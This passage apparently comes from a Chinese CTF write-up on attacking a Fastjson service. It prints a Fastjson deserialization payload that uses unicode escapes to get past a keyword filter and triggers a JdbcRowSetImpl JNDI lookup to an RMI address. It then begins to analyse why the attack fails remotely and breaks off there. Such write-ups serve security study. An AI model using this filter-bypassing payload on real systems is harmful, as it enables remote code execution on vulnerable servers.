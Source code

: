 由于过滤了关键字，可以直接用`hex`​ 跟 `unicode`​去绕过即可，本地尝试打一下

```bash
{"username":{"@\u0074\u0079\u0070\u0065": "java.lang.Class","val":"com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"password":{"@\u0074\u0079\u0070\u0065": "com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"rmi://127.0.0.1:1099/qv9wk6","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}
```

[![](assets/1708870136-f7dce30094bf72a2c5765218eb8a5651.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121381.png)​

但打远程的时候发现就不可以，那么仔细去分析一下，其实会发现有以下几个原因

1.  fastjson 不出网
2.  使用的 jdk 并不是 8u65 而是别的 jdk

‍

首先第一个 打不出网的 fastjson 打`TemplatesImpl`​的话并没有开启私有可访问的参数`Feature.SupportNonPublicField`​,`C3P0`​,`Commons-io`​,`BCEL`​都没有这些依赖，因为依赖非常的清楚只有这些
